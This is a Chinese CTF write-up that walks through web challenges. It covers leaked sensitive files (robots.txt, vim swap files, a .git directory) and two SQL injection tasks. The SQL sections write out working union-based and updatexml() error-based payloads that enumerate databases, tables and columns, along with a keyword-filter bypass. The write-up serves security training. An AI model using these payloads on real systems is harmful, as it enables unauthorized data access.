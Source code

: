 [[TOC]]

# 0x01 [信息搜集]
## 常见的搜集

敏感文件泄露，web中常见的敏感文件包括：

> 
- rbots.txt
- readme.txt/md
- www.zip/rar/tar：网站备份文件
- 中间件的banner信息，暴露中间件版本或框架版本
- gedit备份文件：后缀为~
- vim备份文件: .文件名.swp
- 未完待续。。。。

本题：
解题
发现robots,得到提示flag1_is_her3_fun.txt访问该文件，得到FALG上半部分：
![](pic/sf1.png)

发现index.php~，得到第二部部分flag: s_v3ry_im
![](pic/sf2.png)

发现.index.php.swp，下载后通过命令还原
![](pic/sf3.png)

```shell
touch index.php --先创建index.php文件
vim -r index.php --还原文件
```
![](pic/sf4.png)

## 粗心的小李

根据题目提示，是一道git泄露题，直接上工具GitHacker下载git文件

![](pic/git_01.png)
![](pic/git_02.png)

访问index.html，得到flag
![](pic/git_03.png)


# 0X02 [SQL注入]

## SQL注入-1

尝试`id=1' and 1=2 --+` 页面无显示，`id=1' and 1=1 --+` 返回内容等于`id=1`,应该是字符型注入：
![](pic/sql1_1.png)

![](pic/sql1_2.png)

尝试`id=1' and 1=1  order by 4--+` 页面无显示, 返回数据项为3项;

相关playlod如下
```
--爆库名
?id=99' union all select 1,2,database() --+
--爆表
?id=99' union all select 1,2,group_concat(table_name) from  information_schema.tables where table_schema=database() --+
--爆列
?id=99' union all select 1,2,group_concat(column_name) from  information_schema.columns where table_schema=database()  and table_name='fl4g'--+
--爆值
?id=99' union all select 1,2,fllllag from fl4g --+
```

## SQL注入-2
根据提示，访问login.php，并带上参数?tips=1 观察SQL报错信息，
> name=test'&pass=123

![](pic/sql2_1.png)

> name=test'#&pass=123

SQL不报错了，回显正常的校验信息，所以这题可以使用SQL 报错信息进行注入,使用`updatexml()`函数进行注入

**原理**:

> 当参数2不符合/xxx/xxx/xxx的格式时，函数会报错，并将值显示在报错信息中,所以可以构建如下paylod:
> 
``` sql
(updatexml(‘anything’,concat(‘~’,(select database())),’anything’))
```

``` 
--爆库名
name=test' and (updatexml('anything',concat('~',(select database())),'anything'))# &pass=1

--爆表
name=test' and (updatexml('anything',concat('~',(selselectect group_concat(table_name) from information_schema.tables where table_schema='note')),'anything'))# &pass=1 

--爆列
 name=test' and (updatexml('anything',concat('~',(selselectect group_concat(column_name) from information_schema.columns  where table_schema='note' and table_name='fl4g')),'anything'))# &pass=1

--爆值
name=test' and (updatexml('anything',concat('~',(selselectect flag from fl4g)),'anything'))# &pass=1 
  ```

![](pic/sql2_2.png)
![](pic/sql2_3.png)